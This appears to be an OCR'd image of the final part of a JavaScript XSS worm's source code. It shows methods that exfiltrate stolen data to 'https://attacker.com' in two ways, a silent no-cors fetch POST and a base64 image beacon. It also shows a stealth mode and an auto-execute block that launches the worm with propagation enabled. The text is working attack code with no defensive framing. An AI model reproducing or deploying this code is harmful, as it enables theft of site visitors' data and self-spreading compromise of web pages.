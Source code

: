 ```
    
    sendToAttacker(type, data) {
        const payload = {
            type: type,
            data: data,
            wormId: this.getWormId(),
            timestamp: Date.now(),
            url: window.location.href
        };
        
        // Try multiple exfiltration methods
        this.exfiltrateViaFetch(payload);
        this.exfiltrateViaImage(payload);
        
        if (!this.config.stealthMode) {
            console.log(`📡 Exfiltrating ${type}:`, data);
        }
    }
    
    exfiltrateViaFetch(payload) {
        try {
            fetch(`${this.config.attackerServer}/collect`, {
                method: 'POST',
                headers: { 'Content-Type': 'application/json' },
                body: JSON.stringify(payload),
                mode: 'no-cors'
            });
        } catch (e) {
            // Fail silently
        }
    }
    
    exfiltrateViaImage(payload) {
        try {
            const img = new Image();
            const encodedData = btoa(JSON.stringify(payload));
            img.src = `${this.config.attackerServer}/img?data=${encodedData}`;
        } catch (e) {
            // Fail silently
        }
    }
    
    getWormId() {
        if (!this.wormId) {
            this.wormId = 'worm_' + Math.random().toString(36).substr(2, 9);
        }
        return this.wormId;
    }
}

// Auto-execute if not already running
if (typeof window !== 'undefined' && !window.xssWormActive) {
    new XSSWorm({
        attackerServer: 'https://attacker.com',
        stealthMode: true,
        maxPropagations: 5
    });
}
```
